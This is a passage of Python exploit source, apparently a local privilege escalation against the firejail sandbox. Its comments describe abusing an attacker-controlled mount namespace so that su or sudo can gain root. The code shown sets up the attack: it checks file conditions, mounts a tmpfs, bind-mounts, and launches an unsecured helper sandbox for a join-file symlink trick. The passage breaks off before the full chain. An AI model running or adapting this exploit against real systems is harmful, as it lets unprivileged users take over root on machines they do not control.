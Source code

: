 ```python
# lives in an attacker controller mount namespace while the user namespace is
# still the initial user namespace and the nonewprivs setting is unset,
# allowing to escalate privileges via su or sudo.

import os
import shutil
import stat
import subprocess
import sys
import tempfile
import time
from pathlib import Path

# Print error message and exit with status 1
def printe(*args, **kwargs):
    kwargs['file'] = sys.stderr
    print(*args, **kwargs)
    sys.exit(1)

# Return a boolean whether the given file path fulfils the requirements for the
# exploit to succeed:
# - owned by uid 0
# - size of 1 byte
# - the content is a single '1' ASCII character
def checkFile(f):
    s = os.stat(f)

    if s.st_uid != 0 or s.st_size != 1 or not stat.S_ISREG(s.st_mode):
        return False

    with open(f) as fd:
        ch = fd.read(2)

        if len(ch) != 1 or ch != "1":
            return False

    return True

def mountTmpFS(loc):
    subprocess.check_call("mount -t tmpfs none".split() + [loc])

def bindMount(src, dst):
    subprocess.check_call("mount --bind".split() + [src, dst])

def checkSelfExecutable():
    s = os.stat(__file__)

    if (s.st_mode & stat.S_IXUSR) == 0:
        printe(f"{__file__} needs to have the execute bit set for the exploit to work. Run `chmod +x {__file__}` and try again.")

# This creates a "helper" sandbox that serves the purpose of making available
# a proper "join" file for symlinking to as part of the exploit later on.
#
# Returns a tuple of (proc, join_file), where proc is the running subprocess
# (it needs to continue running until the exploit happened) and join_file is
# the path to the join file to use for the exploit.
def createHelperSandbox():
    # just run a long sleep command in an unsecured sandbox
    proc = subprocess.Popen(
            "firejail --noprofile -- sleep 10d".split(),
            stderr=subprocess.PIPE)

```